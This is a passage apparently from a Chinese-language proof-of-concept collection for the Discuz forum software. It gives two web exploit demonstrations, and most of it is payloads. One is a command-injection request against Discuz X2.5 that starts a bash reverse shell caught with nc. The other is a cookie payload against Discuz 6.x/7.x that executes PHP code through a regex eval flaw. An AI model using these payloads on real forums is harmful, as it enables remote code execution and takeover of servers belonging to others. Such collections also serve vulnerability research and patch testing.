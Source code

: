 参考链接：
https://www.seebug.org/vuldb/ssvid-97510

https://www.anquanke.com/post/id/158270
#### 演示2：Discuz X2.5 /source/class/class_image.php 命令执行漏洞
在发贴上传附件，上传图片附近，预览抓包修改为以下链接
GET/dzx25/forum.php?mod=image&aid=1&size=|bash%20i%20>%26%20/dev/tcp/127.0.0.1/8888%200>%261|x300&key=68b54146d9d1bfb2ebb38f44f2427454&nocache=yes&type=1&ramdom=xfie9
使用nc命令监听本地8888端口，成功获取到反弹的shell

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/55.png)

参考链接：http://0day5.com/archives/2846/
#### 演示3：Discuz 6.x/7.x /include/discuzcode.func.php 代码执行漏洞
访问一个存在的帖子，需要访问的页面有表情。 例如：http://192.168.0.222/bbs/viewthread.php?tid=12&extra=page%3D1 然后刷新帖子，拦截数据包，cookie中添加
1GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui;GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/56.png)
